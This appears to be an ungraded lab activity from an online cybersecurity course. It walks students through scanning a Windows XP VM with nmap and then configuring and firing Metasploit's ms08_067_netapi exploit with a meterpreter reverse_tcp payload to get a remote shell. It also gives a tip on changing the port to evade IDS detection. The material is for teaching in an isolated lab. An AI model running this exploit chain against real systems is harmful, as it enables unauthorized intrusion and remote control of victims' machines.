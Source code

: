 ### ACTIVITY: USING METASPLOIT

*This activity is ungraded.*

**Remember:** Watch this Demo video. Seeing me complete the activity first will help you understand each of the steps.

- [Starting Metasploit](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/83c651745d4b4d2f9acbc4da11e5a0b5)
- [Exploit and Payload Demo](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/83c651745d4b4d2f9acbc4da11e5a0b5#93ce7e4fa7424e5aa83f1b8087cdc201)

**System:** During this activity, you’ll use the Kali VM as you did in the packet sniffing exercises in Unit 1. 
[Instructions for installing and launching the Kali VM](https://courses.edx.org/courses/course-v1:RITx+CYBER504x+3T2018/jump_to_id/af99a11f64b3400883bc6f9f82e8fa87).

**Note:**

- To complete all of these activities as written, in sequence, you need to have, or acquire, your own copy of Windows XP.
- Just the very last activity requires Windows 7. If you're using the free Microsoft Windows 7 VM (which is limited), some Meterpreter commands from the Meterpreter Activity and Demo Videos will not work. If you're using your own Windows 7 copy, you should be able to replicate everything I did in the demos.

**Time:** This activity should take you approximately 30 minutes to complete.

#### Goal

- To use Metasploit to identify and configure an exploit and payload.

#### Instructions

**Start Metasploit**

**Note:** Hit **Enter** after each command.

1. Start **VMware**, and launch your Kali VM.
2. Open up a terminal and start the Postgresql Database service: ***\*/etc/init.d/postgresql start\****
3. Create and initialize the Metasploit Framework Database with the command ***\*msfdb init\****
   **Note:** You’ll only enter this command the first time you go through these steps. Subsequently, use ***\*msfdb start\**** to launch Metasploit.
4. Launch a second terminal to run MSF in its own environment with the command **msfconsole**
5. After a moment, you’ll see the *msf* prompt.

**Select an Exploit**

1. Open up Windows XP in your second hypervisor (VirtualBox or Hyper-V). The Windows XP system should be in bridged mode.

   **Note:** Your Windows host machine, your Kali VM, and your Windows XP VM should all be on the same subnet. Make sure they can all ping each other before going forward. If the three machines can’t ping each other, make sure the pings aren’t being blocked by a firewall.

2. In msfconsole, enter ***\*nmap -A -v [IP of XP VM]
   -A\**** performs tons of tests on the target IP address, including OS detection, version detection, script scanning, and traceroute.
   **-v** specifies that we want verbose output.

   Notice at the bottom of the output there are lines regarding SMB (Server Message Block) security on the XP system. SMB allows for sharing of files and printers. Also, port 445, for directly hosted SMB over TCP/IP is open.

3. Let’s see all exploits associated with SMB. Enter **search smb**.

4. To find one of the most famous exploits of all-time, enter **search ms08_067_netapi**.

5. For more information on this exploit, enter **info exploit/windows/smb/ms08_067_netapi**.

6. To select this exploit for use, enter **use exploit/windows/smb/ms08_067_netapi**.

7. You’ll notice that the prompt changes to a specific exploit prompt:
   From **msf > use exploit/windows/smb/ms08_067_netapi**
   to **msf exploit(ms08_067_netapi) >**

**Configure an Exploit and Payload**

Using a payload, you will get the victim machine, your Windows VM, to initiate a TCP connection back to your Kali VM.

1. Enter **show payloads** to see all available payloads.
2. Enter ***\*search windows/meterpreter/reverse_tcp\**** to find a reverse_tcp meterpreter shell.
3. Enter **info windows/meterpreter/reverse_tcp** for more information on this payload.
4. To select the payload, enter **set payload windows/meterpreter/reverse_tcp**.
5. Enter **show options** to configure the exploit. Note the various parameters which are required for the exploit to be launched properly.
6. Enter ***\*show targets\**** to see all of the targets this exploit works for.
7. For this activity, keep the default of *target 0, automatic targeting*.
8. Set the remote host using the IP address of the Windows XP system: **set RHOST \*192.168.1.105\*** *(remember to change this IP to yours)*.
9. Set the local host, using the IP address of your Kali box: **set LHOST \*192.168.1.104\***.
10. Enter **show options** to verify your settings.

**Note:** A hacker could change the local port from 4444 to avoid detection, since many IDSes know about Metasploit’s use of port 4444. You don’t have to do that for this activity.

Enter exploit to enter the XP system. If successful, you’ll see your meterpreter shell!

In the next activities, you will see what you can do on the target machine through this exploit. You should continue working now if you can. If not, you will have to repeat these steps before starting the next activity *Meterpreter Commands*.